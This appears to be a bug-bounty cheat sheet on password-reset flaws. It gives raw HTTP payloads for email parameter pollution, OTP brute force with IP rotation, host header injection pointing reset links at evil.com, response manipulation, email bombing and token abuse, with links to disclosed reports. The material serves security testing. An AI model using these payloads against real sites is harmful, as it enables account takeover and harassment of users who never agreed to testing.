 ## Password Reset Flaws

### 1. Account Takeover: Password Reset With Manipualating Email Parameter

```
POST /reset
[...]
1 email= victim@gmail.com&email=attacker@gmil.com
or
2 email= victim@gmail.com%20email=attacker@gmil.com
or
3 email= victim@gmail.com |email=attacker@gmil.com
or
4 email= "victim@gmail.com%0d%0acc:attacker@gmil.com"
or
5 email="victim@mail.com","attacker@mail.com"
or
{"email":["victim@mail.tld","atracker@mail.tld"]}
or
6 email= victim@gmail.com&code= my password reset token
```
https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
https://twitter.com/HusseiN98D/status/1254888748216655872
https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

### 2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$

```
 *Use IP-Rotator on burpsuite to bypass IP based ratelimit. 

### 3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
https://hackerone.com/reports/226659
https://hackerone.com/reports/167631
https://www.acunetix.com/blog/articles/password-reset-poisoning/
https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87


### 4. Full Account Takeover via Changing Email And Password of any User through API Parameters
```
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})

```
Reference

  https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240


### 5.Response manipulation: Replace Bad Response With Good One
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response

HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```
 https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### 6.No Rate Limiting: Email Bombing

    Start the Burp Suite and Intercept the password reset request
    Send to intruder
    Use null payload

 https://hackerone.com/reports/280534
 https://hackerone.com/reports/794395
    
### 7.Password Reset Token Leak Via Referrer
  https://hackerone.com/reports/342693
  https://hackerone.com/reports/272379
  https://hackerone.com/reports/737042
  https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a
  https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1

### 8. Using Expired Token
Check if the expired token can be reused

### 9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
Use Burp Sequencer to find the randomness or predictability of tokens.
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)

